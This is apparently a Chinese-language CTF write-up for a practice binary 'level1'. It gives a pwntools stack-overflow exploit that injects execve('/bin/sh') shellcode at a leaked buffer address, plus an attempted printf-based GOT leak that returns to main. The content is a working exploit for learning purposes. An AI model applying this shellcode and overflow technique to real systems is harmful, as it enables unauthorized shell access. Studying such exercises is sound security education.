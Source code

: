 # level1

检查程序保护

![image-20240511112451006](../图片/image-20240511112451006.png)

反汇编

![image-20240511145556350](../图片/image-20240511145556350.png)

栈可执行，那么直接上shellcode

```python
from pwn import *
import time

sh = process('./level1')

#gdb.attach(sh)
#sleep(15)

data = sh.recvline()
#获取buf地址
buff_address_byte = data.split(b'x')[1].split(b'?')[0]
buff_address_int = int(buff_address_byte, 16)
#系统调用汇编
shellcode = asm("""
xor ecx,ecx;
push ecx;
push 0x0068732f;
push 0x6e69622f;
mov ebx,esp;
mov eax,0xb;
xor edx,edx
int 0x80"""
)
#计算汇编字节长度
length = len(shellcode)
#将shellcode写到buf中，填充buf直到溢出点，返回到buf处执行shellcode
payload = flat([shellcode,b'a'*(140-length),p32(buff_address_int)])

sh.send(payload)
sh.interactive()
```

思考：

既然可以打印地址，我想换种思路泄露got表应该也可以

尝试着写了一下，发现printf函数不能像puts函数打印出地址里的内容，泄露got的思路可能行不通

```python
from pwn import *
import time


sh = process('./level1')
elf = ELF('./level1')

#gdb.attach(sh)
#sleep(15)

libc_start_main_got = elf.got['__libc_start_main']
printf_plt = elf.plt['printf']
main_address = elf.symbols['main']
format_address = 0x08048570
#接收第一句话
data = sh.recvline()
print(data)
#                            溢出点            返回地址           参数1                 参数2                         
#                        再次执行printf函数  返回到main函数       format地址      拿到libc_start_main实现地址用于泄露system                                
payload = flat([b'a'*140,p32(printf_plt),p32(main_address),p32(format_address),p32(libc_start_main_got)])
sh.send(payload)
data = sh.recvline()
print(data)


sh.interactive()
```

